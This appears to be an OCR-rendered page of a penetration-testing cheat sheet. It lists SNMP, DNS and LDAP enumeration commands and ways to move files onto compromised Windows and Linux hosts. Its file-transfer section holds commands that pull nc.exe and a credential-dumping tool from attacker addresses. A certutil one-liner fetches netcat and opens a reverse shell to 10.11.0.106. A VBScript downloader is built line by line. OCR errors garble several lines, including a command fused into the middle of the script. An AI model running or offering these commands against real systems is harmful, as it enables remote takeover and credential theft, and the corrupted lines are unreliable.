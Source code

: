 SNMP V3

> $ nmap -p 161 --script=snmp-info &gt; $ip $ default creds:  
> ▪ /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt

## DOMAIN

Leak DC hostname:

> $ noslookup  
> server 10.10.10.172  
> set type=ns  
> 10.10.10.172  
> 127.0.0.1

Nmap:

> $ nmap -p 53 --script=\*dns\* -vv -oN dns &gt; $ip

## LDAP/Active Directory

--Look for anonymous bind

> $ ldapsearch -x -b "dc=megabank,dc=local" "\*" -h &gt; $ip

## FILE TRANSFER

Simple Servers:

> $ python -m SimpleHTTPServer 80  
> $ python -m pyftpdlib -p 21 -w -d /tmp  
> $ ptftpd -p 69 -v eth0 /tmp  
> $ impacket-smbserver -username guest -password guest -smb2support share &gt; $\(pwd\) // Might need to remove -smb2support option

Tools:

> $ Linux & Windows \( Newer Windows versions only \)  
> ▪ wget [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -O nc.exe  
> ▪ curl [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -o nc.exe  
> $ Windows \( Should work on most Windows versions\)  
> ▪powershell \(New-Object System.Net.WebClient\).DownloadFile\("[https://10.10.10.144/test.txt](https://10.10.10.144/test.txt)", "test.txt"\)  
> ▪net use Z: \\computer\_name\share\_name //Mount smb share  
> ▪ &gt; $pass= "guest" \| ConvertTo-SecureString -AsPlainText -Force $cred = New-Object System.Management.Automation.PsCredential\('guest', &gt; $pass\)  
> New-PSDrive -name guest -root \\10.10.15.53\share -Credential &gt; $cred -PSProvider "filesystem"  
> ▪certutil.exe -urlcache -split -f "[http://10.11.0.106:8000/nc.exe](http://10.11.0.106:8000/nc.exe)" nc.exe && nc.exe -nv 10.11.0.106 443 -e cmd.exe  
> ▪VBscript  
> → echo strUrl = WScript.Arguments.Item\(0\) &gt; wget.vbs  
> echo StrFile = WScript.Arguments.Item\(1\) &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 &gt;&gt; wget.vbs  
> echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts &gt;&gt; wget.vbs  
> echo Err.Clear &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set http = CreateObject\("WinHttp.WinHttpRequest.5.1"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("WinHttp.WinHttpRequest"\) &gt;&gt; wget.vbs  
> echcscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upex.exe If http Is Nothing Then Set http = CreateObject\("MSXML2.ServerXMLHTTP"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("Microsoft.XMLHTTP"\) &gt;&gt; wget.vbs  
> echo http.Open "GET", strURL, False &gt;&gt; wget.vbs  
> echo http.Send &gt;&gt; wget.vbs  